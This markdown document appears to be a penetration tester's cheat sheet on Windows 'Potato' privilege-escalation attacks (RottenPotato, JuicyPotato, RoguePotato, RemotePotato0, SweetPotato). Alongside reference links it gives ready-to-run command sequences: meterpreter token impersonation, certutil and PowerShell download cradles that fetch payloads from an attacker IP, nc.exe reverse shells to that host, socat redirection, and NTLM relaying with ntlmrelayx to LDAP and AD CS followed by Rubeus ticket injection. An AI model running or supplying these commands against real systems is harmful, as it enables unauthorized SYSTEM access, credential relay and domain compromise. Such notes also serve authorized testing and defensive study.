 # Potatoes

- [https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)
- [https://hideandsec.sh/books/windows-sNL/page/in-the-potato-family-i-want-them-all](https://hideandsec.sh/books/windows-sNL/page/in-the-potato-family-i-want-them-all)




## RottenPotato

- [https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
- [https://github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)

```
$ curl -L https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe > r.exe
meterpreter > upload r.exe
meterpreter > load incognito
meterpreter > execute -cH -f r.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```




## LonelyPotato

- [https://decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/)
- [https://github.com/decoder-it/lonelypotato](https://github.com/decoder-it/lonelypotato)




## JuicyPotato

- [https://ohpe.it/juicy-potato/](https://ohpe.it/juicy-potato/)
- [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)
- [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
- [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)

```
$ curl -L https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe > j.exe
...Using pwsh reverse shell...
$ curl -L https://github.com/samratashok/nishang/raw/master/Shells/Invoke-PowerShellTcpOneLine.ps1 > rev.ps1
Cmd > certutil -urlcache -split -f http://10.10.13.37/j.exe C:\Windows\System32\spool\drivers\color\j.exe
Cmd > echo cmd /c powershell -exec bypass -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')" > rev.bat
Cmd > .\j.exe -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} -l 1337 -p C:\Windows\System32\spool\drivers\color\rev.bat
...Using nc.exe...
Cmd > .\j.exe -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} -l 1337 -p C:\Windows\System32\spool\drivers\color\nc.exe "10.10.13.37 1337 -e cmd"
```




## RoguePotato

- [https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)
- [https://github.com/antonioCoco/RoguePotato/releases](https://github.com/antonioCoco/RoguePotato/releases)

Redirect traffic that comes to 135 port on Attacker (`10.10.13.37`) with `socat` back to the Victim (`192.168.1.11`) on port 9999 (RogueOxidResolver is running locally on port 9999 on Victim):

```
$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9999
```

Trigger the potato to run a binary with high privileges (don't forget to start a listener if sending a reverse shell):

```
Cmd > .\RoguePotato.exe -r 10.10.13.37 -e "C:\windows\Temp\nc.exe 10.10.13.37 443 -e cmd" -l 9999
```




## RemotePotato0

- [https://www.sentinelone.com/labs/relaying-potatoes-another-unexpected-privilege-escalation-vulnerability-in-windows-rpc-protocol/](https://www.sentinelone.com/labs/relaying-potatoes-another-unexpected-privilege-escalation-vulnerability-in-windows-rpc-protocol/)
- [https://github.com/antonioCoco/RemotePotato0/releases](https://github.com/antonioCoco/RemotePotato0/releases)

Get session ID of the user to pwn:

```
Cmd > query user
Cmd > quser
```

Hashes collector (modes 2, 3):

```
$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9998
Cmd > .\RemotePotato0.exe -m 2 -x 10.10.13.37 -p 9998 -s 5
```

Cross-protocol relay (modes 0, 1):

```
$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9998
$ sudo ntlmrelayx.py -t ldap://192.168.1.11 --no-smb-server --no-wcf-server --no-raw-server --escalate-user snovvcrash
Cmd > .\RemotePotato0.exe -m 0 -r 10.10.13.37 -x 10.10.13.37 -p 9998 -s 5
```

[Combining](https://twitter.com/0xcsandker/status/1430111652008112131) with ESC8:

```
$ sudo ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp --no-smb-server --no-wcf-server --no-raw-server --adcs --template User
Cmd > .\RemotePotato0.exe -m 0 -r 10.10.13.37 -x 10.10.13.37 -p 9998 -s 5 -c "{f8842f8e-dafe-4b37-9d38-4e0714a61149}"
Cmd > .\Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /dc:DC1.megacorp.local /certificate:<BASE64_PFX_CERT> /ptt
```




## GenericPotato

- [https://micahvandeusen.com/the-power-of-seimpersonation/](https://micahvandeusen.com/the-power-of-seimpersonation/)
- [https://github.com/micahvandeusen/GenericPotato](https://github.com/micahvandeusen/GenericPotato)




## EfsPotato

- [https://github.com/zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)




## Tools



### SweetPotato

- [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)

```
Cmd > .\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <BASE64_CMD>"
```



### MultiPotato

- [https://github.com/S3cur3Th1sSh1t/MultiPotato](https://github.com/S3cur3Th1sSh1t/MultiPotato)
